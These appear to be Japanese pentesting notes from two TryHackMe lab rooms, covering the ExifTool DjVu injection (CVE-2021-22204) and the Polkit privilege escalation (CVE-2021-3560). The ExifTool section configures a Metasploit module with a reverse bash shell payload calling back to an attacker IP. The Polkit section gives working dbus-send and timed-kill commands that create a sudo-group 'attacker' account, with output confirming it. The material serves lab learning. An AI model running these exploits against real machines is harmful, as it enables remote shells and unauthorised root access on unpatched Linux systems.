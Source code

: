 ## CVE-2021-22204 (Exiftool)

https://tryhackme.com/room/dejavu

サーバーでExiftoolが実行されるとして、画像ファイルをアップロードする。

```sh
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set LHOST 10.11.146.32
LHOST => 10.11.146.32

msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash

msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > run
[+] msf.jpg stored at /home/kali/.msf4/local/msf.jpg
```

## CVE-2021-3560 (Polkit)

https://tryhackme.com/room/polkit

- Red Hat Enterprise Linux 8
- Fedora 21 (or later)
- Debian Testing ("Bullseye")
- Ubuntu 20.04 LTS ("Focal Fossa")

ubuntuの場合、`0.105-26ubuntu1.1` でパッチがリリースされた。

```sh
apt list --installed | grep policykit-1
```

### エクスプロイト

```sh
# コマンドの実行にかかる時間を特定する
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1

Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required

real    0m0.012s
user    0m0.002s
sys     0m0.000s
```

```sh
# 処理中に強制終了する
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
[1] 1348

# 作成確認
tryhackme@polkit:~$ id attacker
uid=1000(attacker) gid=1000(attacker) groups=1000(attacker),27(sudo)
```
